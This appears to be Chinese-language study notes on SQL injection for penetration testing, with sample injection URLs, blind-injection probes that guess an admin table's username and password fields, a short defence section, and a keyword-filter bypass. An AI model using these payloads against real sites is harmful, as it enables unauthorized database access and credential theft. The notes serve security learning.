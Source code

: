 

## 渗透测试

### SQL注入

SQL语言中的一些特殊符号

- 分号，意味着指令结束，有可能开始下一个指令
- 单引号，用于字符常量
- #或--+意味着注释

**寻找可能存在SQL**

注入漏洞的链接

测试该网站是否有SQL注入漏洞

数字型漏洞

```
http://xxx.xxx.xxx/abcd.php?id=XX or 1=1
http://xxx.xxx.xxx/abcd.php?id=XX and 1=2
```

字符型漏洞

```
http://xxx.xxx.xxx/abcd.php?id=XX ’or ‘1’=‘1
http://xxx.xxx.xxx/abcd.php?id=XX ’and ‘1’=‘2
```

猜测管理表的字段

```
and exists (select id from admin)
and exists (select username from admin)
and exists (select password from admin)
```

猜测密码长度

```
and exists (select id from admin where id=1)
and exists (select id from admin where len(username)<6 and id=1)
```

SQL**注入防御措施**

对SQL请求的动态解析树

采用SQL引擎预先对SQL语法进行分析，生成该SQL语句的语法树。对客户端输入的参数中的SQL命令解析为字符串字面值参数，进而不会执行

- 严格匹配和过滤
- 设置数据库用户权限

关键词过滤绕过

and->&&

or->||
